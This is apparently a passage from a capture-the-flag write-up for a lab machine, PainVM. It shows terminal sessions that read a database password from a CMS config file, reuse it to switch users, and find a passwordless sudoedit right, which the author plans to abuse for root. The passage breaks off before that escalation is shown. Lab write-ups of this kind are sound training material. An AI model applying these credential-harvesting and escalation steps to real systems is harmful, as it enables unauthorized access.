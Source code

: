 ```
www-data@PainVM:/var/www/html/akatsukiCMS/includes$ pwd
/var/www/html/akatsukiCMS/includes
www-data@PainVM:/var/www/html/akatsukiCMS/includes$ ls -al
total 20
drwxrwxr-x 2 www-data www-data 4096 Mar  9 10:59 .
drwxrwxr-x 4 www-data www-data 4096 Mar 10 13:13 ..
-rwxrwxr-x 1 root     konan     328 Mar  9 10:59 akatsukiCMS_Config.php
-rwxrwxr-x 1 www-data www-data  309 Mar  4 13:10 db_conn.php
-rwxrwxr-x 1 www-data www-data 1765 Mar  4 13:14 user.php
www-data@PainVM:/var/www/html/akatsukiCMS/includes$ cat akatsukiCMS_Config.php 
<?php

// Database configuration
define('DB_HOST', 'localhost');  // replace with your database host
define('DB_NAME', 'akatuskiCMS'); // replace with your database name
define('DB_USER', 'pain');      // replace with your database username
define('DB_PASS', 'N0tCr@ck4ble2023!!!');  // replace with your database password

?>
www-data@PainVM:/var/www/html/akatsukiCMS/includes$ 
```
After much playing around, finding interesting files, got to see an interesting file `akatsukiCMS_Config.php` in the `/var/www/html/akatsukiCMS/includes` directory. checking its content we got to see some creds. let's try su into the user `pain` with password `N0tCr@ck4ble2023!!!`. 

```
www-data@PainVM:/var/www/html/akatsukiCMS/includes$ su pain
Password: 
pain@PainVM:/var/www/html/akatsukiCMS/includes$ id
uid=1000(pain) gid=1000(pain) groups=1000(pain)
pain@PainVM:/var/www/html/akatsukiCMS/includes$ 
```
Boom we are in as user `pain`.

```
pain@PainVM:~$ ls -al
total 24
drwxr-xr-x 2 pain pain 4096 Mar 10 17:20 .
drwxr-xr-x 4 root root 4096 Mar  9 11:03 ..
-rw-r--r-- 1 pain pain  220 Mar  6 18:16 .bash_logout
-rw-r--r-- 1 pain pain 3526 Mar  6 18:16 .bashrc
-rw-r--r-- 1 root pain   33 Mar  9 13:13 local.txt
-rw-r--r-- 1 pain pain  807 Mar  6 18:16 .profile
pain@PainVM:~$ sudo -l
User pain may run the following commands on PainVM:
    (root) NOPASSWD: sudoedit /var/www/html/akatsukiCMS/includes/akatsukiCMS_Config.php
pain@PainVM:~$
```
checking for sudo privs, we got to see that user `pain` can run `sudoedit /var/www/html/akatsukiCMS/includes/akatsukiCMS_Config.php` as root without password. let's abuse this priv. `sudoedit` A local user with permission to run the sudoedit pseudo-command can gain root privileges, through manipulation of the PATH environment variable.
